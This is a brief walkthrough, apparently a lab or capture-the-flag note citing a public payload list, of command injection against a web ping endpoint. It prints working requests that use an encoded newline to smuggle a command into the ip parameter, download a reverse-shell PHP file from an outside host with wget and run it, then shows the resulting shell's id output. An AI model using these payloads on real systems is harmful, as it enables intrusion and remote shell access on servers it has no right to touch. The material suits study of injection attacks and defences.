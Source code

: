 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/Intruder/command_exec.txt

use %0a to terminate the ip string and inject commands
```
GET /ping?ip=%0awget+http%3a//10.4.18.63/rev.php
GET /ping?ip=%0aphp+rev.php
```
get a shell
```
$ id
uid=1002(www) gid=1002(www) groups=1002(www)
```

